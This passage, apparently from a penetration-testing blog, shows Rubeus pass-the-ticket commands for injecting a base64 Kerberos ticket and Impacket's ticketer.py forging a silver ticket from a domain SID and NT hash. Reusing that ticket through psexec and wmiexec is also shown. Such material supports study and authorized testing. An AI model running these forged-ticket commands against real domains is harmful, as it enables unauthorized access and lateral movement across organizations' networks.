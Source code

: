 


Inject `.kirbi` from Base64 Blog

```
PS C:\Users\m0chan> .\Rubeus.exe ptt /ticket:BASE64BLOBHERE

(_____ \      | |
 _____) )_   _| |__  _____ _   _  ___
|  __  /| | | |  _ \| ___ | | | |/___)
| |  \ \| |_| | |_) ) ____| |_| |___ |
|_|   |_|____/|____/|_____)____/(___/

v1.3.3


[*] Action: Import Ticket
[+] Ticket successfully imported!

PS C:\Users\m0chan> .\Rubeus.exe klist
```





### [](#header-3)From Linux 



I am going to try my best here to show how you can use Silver Tickets/Inject them etc from Linux but truthfully this is a learning experience for me as I 99% of the time carry this out on Windows bases platforms and/or **Domain-Joined Machines**



#### [](#header-4)ticketer.py

Here we find ourselves again on a Linux machine wanting to do Windows things so where do we look? You have one guess. Yep you're right. **Impacket** has a script called `ticketer.py`



I truthfully just learnt about this script after doing some Googling so I am not expert on it's internals but after a brief overview it appears as if `ticketer.py` allows you to generate forged `Silver` and `Golden` tickets which will come in handy for the next section about `Golden Tickets` 



The Syntax for Ticketer is as follows

```python
m0chan@kali:/scripts/> python ticketer.py -domain-sid S-1-5-21-1473643419-774954089-2222323452 -nthash d7e2b80507ea074ad59f152a1ba20458 -domain m0chanAD.local -spn cifs/workstation.m0chanAD.local m0chan
    
#This will export a .ccache file which can be imported by executing the below command

KRB5CCNAME=/scripts/m0chan.ccache 

We can then pass the -K switch through with any other Impacket scripts and it will automatically use the cached kerberos ticket, such as PSEXec, WMIExec (i think).
```
